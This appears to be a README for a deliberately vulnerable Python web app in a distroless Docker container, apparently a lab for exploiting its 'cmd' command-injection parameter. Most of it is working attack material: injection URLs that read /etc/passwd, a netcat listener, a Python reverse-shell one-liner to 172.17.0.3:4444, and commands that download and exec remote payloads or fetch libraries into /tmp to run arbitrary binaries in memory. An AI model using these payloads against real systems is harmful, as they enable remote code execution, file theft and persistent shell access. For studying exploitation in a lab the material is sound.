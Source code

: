 ### Build distroless
```bash
docker build . -t py-rce-dless
docker start -p 8080:8080 py-rce-dless
```

### Raw image (no distroless)
```bash
docker run -it python:3.10-slim sh
```

### Execute builtin shell functions
`http://127.0.0.1:8080/?cmd=command -v python`

### Read File
`http://127.0.0.1:8080/?cmd=while read -r line; do echo $line; done</etc/passwd`

### Run python
`http://127.0.0.1:8080/?cmd=python -c "exec('import platform\nprint(platform.uname())')"`

### Get python rev shell

**Start a listener** on your machine:

```bash
nc -lvnp 4444
```

Get **python reverse shell** (change your IP and port):

```bash
http://127.0.0.1:8080/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.3",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/usr/bin/python","-i"]);'
```

**You should have received the python shell!**


### Execute arbitrary binaries

Generate the payload to load in memory with `fee /bin/ls > ls.py`. **AND UPDATE** the payload with the following code at the beggining **or you will lose your shell**:

```python
# imports ...
pid = os.fork()
if pid == 0: #pid==0 represents the child process
# Rest of the payload inside this if
```

**If you want to execute the binary with more params, add them in the last line of the payload**

In your python reverse shell run this to **download and execute the binary**:

```python
from urllib import request
ls = request.urlopen("http://172.17.0.3:8989/tmp/ls.py").read()
exec(ls)
```


### Execute arbitrary binaries without python rev shell
```bash
url = "http://172.17.0.3:8989/tmp/ls.py";
tmp_dir = "/tmp/";
open(tmp_dir+url.split("/")[-1], "wb").write(__import__('urllib').request.urlopen(url).read());
# Change url and tmp_dir if nececesary and remove new lines
```

- Download `libselinux.so.1`: `http://127.0.0.1:8080/?cmd=python -c 'url="http://172.17.0.3:8989/lib/aarch64-linux-gnu/libselinux.so.1";tmp_dir = "/tmp/";open(tmp_dir+url.split("/")[-1], "wb").write(__import__("urllib", fromlist=["request"]).request.urlopen(url).read());'`

- Download `libpcre2-8.so.0`: `http://127.0.0.1:8080/?cmd=python -c 'url="http://172.17.0.3:8989/usr/lib/aarch64-linux-gnu/libpcre2-8.so.0";tmp_dir = "/tmp/";open(tmp_dir+url.split("/")[-1], "wb").write(__import__("urllib", fromlist=["request"]).request.urlopen(url).read());'`

- Download `exploit.py`: `http://127.0.0.1:8080/?cmd=python -c 'url="http://172.17.0.3:8989/tmp/ls.py";tmp_dir = "/tmp/";open(tmp_dir+url.split("/")[-1], "wb").write(__import__("urllib", fromlist=["request"]).request.urlopen(url).read());'`

*It was generated with `fee /bin/ls > output.py`*

- Execute `ls`: `http://127.0.0.1:8080/?cmd=python /tmp/ls.py`

